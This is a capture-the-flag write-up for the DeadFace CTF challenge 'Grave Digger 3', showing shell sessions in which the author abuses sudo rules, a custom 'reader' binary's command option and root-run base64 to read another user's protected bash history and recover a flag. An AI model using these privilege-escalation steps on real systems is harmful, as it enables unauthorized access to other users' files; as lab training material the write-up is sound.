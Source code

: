 ```yaml
---
title: Grave Digger 3
tags: [DeadFace, ctf]
color: success 
description: Writeup for Grave Digger 3 from DeadFace CTF event.
---
```


# Writeup for Grave Digger 3

## Description

```text
There is one more flag that DEADFACE has hidden on d34th's machine. Somehow, you'll have to find a way to access d34th's files in his home directory. Submit the flag as flag{flag text}
```

Using the same creds from Grave Digger 1 and 2, we have access to ssh with `crypto_vamp` user. Basic check for escalating privilege shows we can use a binary called `reader` in `/opt` directory as user `lilith` without password.

```bash
crypto_vamp@c81ec1737490:~$ sudo -l
Matching Defaults entries for crypto_vamp on c81ec1737490:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User crypto_vamp may run the following commands on c81ec1737490:
    (lilith) NOPASSWD: /opt/reader
crypto_vamp@c81ec1737490:~$
```

Looking at the man page of the `reader` binary, we can see that we can actually use `-c` flag to execute commands. Using that, we can run commands as `lilith` user.

```bash
crypto_vamp@c81ec1737490:~$ man reader
man(8)                                                                               reader man page                                                                               man(8)

NAME
       reader - read files as lilith

SYNOPSIS
       reader [OPTIONS] [FILENAME]

DESCRIPTION
       reader is developed to help crypto_vamp and other new recruits read privileged files until their vetting process is complete.

OPTIONS
       -f, --file FILENAME
              Read the contents of FILENAME.

       -c, --command COMMAND
              Execute a command (for troubleshooting purposes ONLY).

       -h, --help
              View the help information.

       -v, --version
              View the version information.

       BUGS   No known bugs.

AUTHOR
       Lilith (bl0ody_mary@deadface.io)

1.3.1                                                                                  24 Sep 2022                                                                                 man(8)
crypto_vamp@c81ec1737490:~$
```

Checking for another basic `sudo -l` from the `c` flag, we can see that we can actually run `/usr/bin/base64` as `root` on the machine without password. There's another user called `spookyboi` whose `bash_history` doesn't seems to be empty. So using the given `base64` binary, let's read the history.

```bash
crypto_vamp@c81ec1737490:~$ sudo -u sudo -u lilith /opt/reader -c "sudo -l"
1: Matching Defaults entries for lilith on c81ec1737490:
2:     env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sb3: in\:/bin\:/snap/bin
4:
5: User lilith may run the following commands on c81ec1737490:
6:     (ALL) NOPASSWD: /usr/bin/base64
7:     (ALL) NOPASSWD: /usr/bin/gzip
8:     (ALL) NOPASSWD: /user/bin/gunzip
crypto_vamp@c81ec1737490:~$
```

```bash
crypto_vamp@c81ec1737490:~$ sudo -u sudo -u lilith /opt/reader -c "ls -al /home/spookyboi"
1: total 48
2: drwxrwxr-x 1 spookyboi spookyboi 4096 Oct 13 22:50 .
3: drwxrwxr-x 1 root      root      4096 Oct 13 22:41 ..
4: -rw------- 1 spookyboi spookyboi  271 Oct 13 22:50 .bash_history
5: drwxrwxr-x 1 spookyboi spookyboi 4096 Oct 13 22:51 .keys
6: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Desktop
7: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Documents
8: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Downloads
9: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Music
10: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Pictures
11: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Public
12: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Templates
13: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Videos
crypto_vamp@c81ec1737490:~$ sudo -u sudo -u lilith /opt/reader -c "sudo /usr/bin/base64 /home/spookyboi/.bash_history | base64 -d"
1: ls -l
2: cd ~
3: mkdir docs
4: rm -rf docs
5: wget https://pastebin.com/raw/XX2nkn3W > gravedigger3.txt
6: rm gravedigger3.txt
7: openssl genrsa -aes128 -out spookyboi-priv.pem 1024
8: openssl rsa -in spookyboi-priv.pem  -pubout > spookyboi-public.pem
9: rm spookyboi-public.pem
10: mv *.pem .keys/
crypto_vamp@c81ec1737490:~$
```

# Flag

```bash
» wget https://pastebin.com/raw/XX2nkn3W
--2022-10-17 17:42:07--  https://pastebin.com/raw/XX2nkn3W
Resolving pastebin.com (pastebin.com)... 172.67.34.170, 104.20.67.143, 104.20.68.143, ...
Connecting to pastebin.com (pastebin.com)|172.67.34.170|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]
Saving to: ‘XX2nkn3W’

XX2nkn3W                                            [ <=>                                                                                                  ]      17  --.-KB/s    in 0s

2022-10-17 17:42:07 (3.42 MB/s) - ‘XX2nkn3W’ saved [17]

» cat XX2nkn3W
flag{b4d_h1sTOrY}
```

##### Author: <a href="https://twitter.com/avijneyam">Avijneyam</a>